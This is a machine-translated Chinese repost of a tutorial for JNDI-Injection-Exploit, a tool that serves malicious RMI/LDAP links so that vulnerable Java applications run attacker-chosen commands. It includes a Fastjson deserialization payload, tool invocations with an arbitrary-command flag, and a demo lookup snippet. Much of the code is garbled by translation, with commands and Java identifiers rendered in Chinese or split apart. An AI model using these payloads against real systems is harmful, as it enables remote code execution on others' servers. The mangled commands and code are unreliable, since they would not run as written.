

# JNDI 注入利用:一个工具，产生 JNDI 链接可以启动几个服务器

> 原文：<https://kalilinuxtutorials.com/jndi-injection-exploit/>

.png)

**JNDI 注入利用**是一个通过启动 RMI 服务器、LDAP 服务器、HTTP 服务器来生成可工作的 JNDI 链接并提供后台服务的工具。RMI 服务器和 LDAP 服务器是基于封送处理的，并被进一步修改以与 HTTP 服务器链接。

使用这个工具可以让你获得 JNDI 链接，你可以将这些链接插入到你的 **POC** 中来测试漏洞。

例如，这是一个 Fastjson vul-poc:

**{ " @ type ":" com . sun . rowset . jdbcrowset impl "，" data source name ":" RMI://127 . 0 . 0 . 1:1099/Object "，" autoCommit":true}**

我们可以把“rmi://127.0.0.1:1099/Object”替换成 JNDI 注入利用产生的链接来测试漏洞。

## 使用

运行方式

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar[-C][命令][-A][地址]**

其中:

*   **-C**–在远程类文件中执行的命令。(可选，默认命令是“打开/应用程序/计算器. app”)
*   **-A**-你的服务器地址，可能是 IP 地址或者域名。(可选，默认地址是第一个网络接口地址)

注意事项:

*   确保服务器的端口( **1099** 、 **1389** 、 **8180** )可用。或者您可以在运行中更改默认端口。ServerStart 类第 26~28 行。
*   您的命令被传递给 **Runtime.getRuntime()。exec()** 作为参数，所以你需要确保你的命令在方法 exec()中是可工作的。**bash 中的命令如“bash -c ….”需要加双引号。**

## 例子

本地演示:

*   像这样启动工具:

**$ Java-jar JNDI-注入-利用-1.0-快照-全部. jar -C "打开/应用程序/计算器. app" -A "127.0.0.1"**

*   假设我们将步骤 1 中生成的 rmi://ADDRESS/jfxllc 这样的 JNDI 链接注入到一个易受攻击的应用程序中，该应用程序可能会受到 JNDI 注入的攻击。

在本例中，它看起来像这样:

**public static void main(String[]args)抛出异常{
initial context CTX = new initial context()；
CTX . lookup(" RMI://127 . 0 . 0 . 1/FGF 4 FP ")；
}**

然后当我们运行这段代码时，命令将被执行，

日志将在 shell 中打印。

## 装置

我们可以从这两种方法中选择一种来得到这个罐子。

*   从 Release 下载最新的 jar。
*   将源代码克隆到本地并构建(需要 Java 1.8+和 Maven 3.x+)。

**$ git 克隆 https://github.com/welk1n/JNDI-Injection-Exploit.git**

**$ CD JNDI-注入-利用**

**$ mvn 干净包-DskipTests**

[**Download**](https://github.com/welk1n/JNDI-Injection-Exploit)